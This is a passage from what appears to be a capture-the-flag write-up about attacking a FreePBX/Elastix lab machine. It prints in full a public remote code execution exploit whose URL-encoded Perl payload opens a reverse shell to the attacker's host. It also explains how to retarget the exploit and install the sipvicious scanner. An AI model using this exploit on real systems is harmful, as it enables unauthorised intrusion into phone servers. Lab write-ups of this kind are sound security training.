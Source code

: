 Since we know that FreePBX is running of this server, we can try this POC:

```shell
❯ searchsploit elastix freepbx
----------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                           |  Path
----------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                                                                                   | php/webapps/18650.py
----------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Looking at the exploit we can see a payload:

```python
import urllib
import ssl
rhost="10.10.10.7" # add the target IP
lhost="10.10.16.3" # add your IP
lport=443 # change the port
extension="1000" # change the extension number with a valid number

ssl._create_default_https_context = ssl._create_unverified_context

# Reverse shell payload

url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

urllib.urlopen(url)
```

We need to modify the following:
- Change the Remote Host IP to the target IP
- Change the Local Host IP to ours.
- Change the Listening Port (if you want!)
- Change the extension number with a valid number

We can use the sipvicious svwar python script to find valid extensions numbers.
[sipvicious github](https://github.com/EnableSecurity/sipvicious/)

We can install sip vicious by reading it's documentation page: 
[sipvicious installation doc](https://github.com/EnableSecurity/sipvicious/wiki/Basics#installation)

```shell
git clone https://github.com/enablesecurity/sipvicious.git
cd sipvicious
sudo python3 setup.py install
pip3 install .
sipvicious_svcrack --help
```
